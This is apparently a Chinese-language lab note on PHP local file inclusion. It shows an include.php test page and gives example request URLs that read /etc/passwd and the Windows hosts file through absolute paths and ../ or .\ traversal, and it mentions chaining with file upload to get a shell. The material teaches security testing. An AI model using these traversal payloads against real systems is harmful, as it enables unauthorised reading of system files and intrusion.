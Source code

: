 ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-10-23-38.png)
![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-10-24-43.png)

**10.52(Windows)创建文件包含页面include.php**

![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-10-27-09.png)
![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-09-54-11.png)

## 本地文件包含

**利用**

- 读取系统中其他敏感文件的内容

<p>  


- 配合文件上传漏洞getshell

**前提条件**

- php配置文件php.ini中参数allow_url_fopen = On (默认配置就是On的状态)

**文件读取**

- Linux绝对路径读取文件

<p>  


-  http://192.168.10.77/include.php?file=/etc/passwd
   ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-10-41-53.png)

-  Linux相对路径读取文件

<p>  


-
      http://192.168.10.77/include.php?file=../../../../../../../../../../etc/passwd
    ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-10-43-04.png)

- Windows绝对路径读取文件

<p>  


-  http://192.168.10.52/include.php?file=C:\Windows\System32\drivers\etc\hosts
   ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-10-54-46.png)

-  Windows相对路径读取文件，Windows路径从盘符开始，无法通过相对路径切换盘符，这里以当前路径.\演示

<p>  


-     http://192.168.10.52/include.php?file=C:\Windows\System32\drivers\etc\.\.\.\.\.\.\hosts

    ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-11-04-15.png)
